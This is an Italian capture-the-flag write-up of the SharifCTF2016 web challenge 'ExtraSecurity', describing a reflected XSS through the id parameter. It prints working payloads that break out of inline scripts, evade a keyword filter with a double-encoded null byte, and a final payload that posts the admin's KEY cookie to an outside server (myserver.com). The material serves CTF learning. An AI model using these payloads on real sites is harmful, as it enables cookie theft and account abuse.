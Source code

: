 ```yaml
---
layout: post
title:  "SharifCTF2016 - ExtraSecurity"
date:   2016-12-19 15:30
categories: CTF
tags: [SharifCTF2016]
categories: [Web]
author: jbz
---
```



Questa sfida web richiedeva di fare 'firmare' all'utente amministratore del sito un numero.  

veniva offerta la possibilità di firmare con la propria chiave (impostata dal server in un cookie `KEY`) o di richiedere all'amministratore attraverso un form di effettuare la firma per noi. Dal testo non era chiaro quale fosse esattamente la strada da prendere: se fosse necessario rubare il cookie all'admin o se bastasse effettivamente utilizzare il form con qualche modifica.
Il testo specificava esplicitamente che l'admin avrebbe utilizzato Chrome per vedere le richieste e che quindi sarebbe intervenuto l'XSS Auditor.

Il primo problema consisteva nel fatto che nella propria pagina per effettuare la firma, all'invio del form, veniva visualizzato un popup di errore e si veniva reindirizzati prima di qualsiasi altra azione.

![Il popup di errore prima del reindirizzamento](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_4.png)

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?content=259&id=<team_id>`

Dal sorgente pagina si poteva notare questo codice:

```html
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ";
</script>
```
Che è quello che causava la reindirizzazione.

Più in basso si notava anche il seguente codice, che però non veniva eseguito:

```html
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MjU5"),
            content: "MjU5",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0l4eEkud0pZRGN2QWdSMG03aGUxT0VmNEZiNHZjQThZ'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```

Con qualche test breve si intuiva subito che il campo GET `id` era plausibilmente vulnerabile ad XSS ma che un filtro custom bloccava le richieste contenenti la maggior parte delle keyword o simboli usati per tale scopo: eval, alert, document, this, etc. C'era inoltre un limite di caratteri che rendeva impossibile l'utilizzo di [jsfuck](http://www.jsfuck.com).

La nostra idea era quella di sfruttare la vulnerabilità nel campo `id`, il cui contenuto veniva riflesso sia nel primo script che nel secondo per rubare il cookie `KEY` all'admin ed effettuare la firma in autonomia.

Cerchiamo quindi un payload che fermi l'esecuzione del primo script e che ci permetta invece di modificare l'url di destinazione in postForm nel secondo, il tutto senza venire bloccati dal filtro di Chrome.

Il primo step è trovare un modo per rompere il primo script ma non il secondo, e questo è possibile grazie alla scelta degli organizzatori di usare apici doppi (") nel primo e apici singoli (') nel secondo:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>};prompt(c['KEY']);a={'p%27:'"&content=1`

Questo payload contiene un apice doppio alla fine che rompe la sintassi del primo script, mentre chiude con un apice semplice il campo id nel secondo script, aggiunge `prompt(c['KEY'])` (equivalente di `alert(c['KEY']` ma non filtrato), e crea un nuovo dict per completare la sintassi già esistente.

Risulta quindi

```html
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};prompt(c['KEY']);a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![PoC](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_2.png)

Ora il grosso problema era il fatto che anche qualsiasi declinazione della parola `post`, `xml` o simili faceva scattare il filtro.
Dopo diversi tentativi, avendo intuito che il filtro fosse realizzato applicativamente (e che quindi non ci fosse un WAF vero e proprio), ed essendo l'applicazione in PHP, iniziammo a provare inserendo null bytes (%00) e altri caratteri come %0a e %0d.
Una volta scoperto che effettivamente il filtro falliva a processare qualsiasi cosa posta dopo un null byte, continuando i test notammo che il bypass funzionava anche effettuando il double encode di %00, cioè %2500 il che preveniva che il null byte venisse stampato nella pagina, che per qualche motivo causava qualche problema nell'esecuzione dello script (al momento del writeup non riesco a riprodurre il problema..).

Il payload finale quindi consisteva in:

`http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=<team_id>'};%0a/*%2500*/%0apostForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"&content=1`

Che risulta nel seguente codice:

```html
<script>
    alert("Sorry, server is busy for a while!");
    document.location = "/index.php?id=eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("MQ=="),
            content: "MQ==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiIyNzkifS4xY0lybkIuelEtUy1QeFJ4WG9iV2U5NDZpOC1BQnY1Wkx3'};
/*%00*/
postForm('http://myserver.com/', body);});garbage(x, function () {a={'p':'"'
        };
        postForm('/sign_and_store.php', body);
    });
</script>

```

![Gli errori nella console dimostrano la mancata esecuzione del primo script e la corretta sintassi del secondo](https://raw.githubusercontent.com/jbzteam/CTF/master/SharifCTF2016/ExtraSecurity/sharif_web_3.png)

Da `garbage` in poi il codice serviva solo per non causare errori di sintassi.
Da notare che il filtro XSS di Chrome in questo scenario non si è mai considerato in quanto la XSS non richiede tag HTML poiché il payload finisce già all'interno di tag `<script>`.

La richiesta di firma all'admin inviava una POST che conteneva un campo URL che lasciava intendere che fosse quello che l'admin avrebbe visitato per effettuare la firma. Bisognava quindi modificare quel campo con il payload descritto sopra.

Purtroppo non siamo riusciti a risolverla in tempo per ottenere il punteggio.
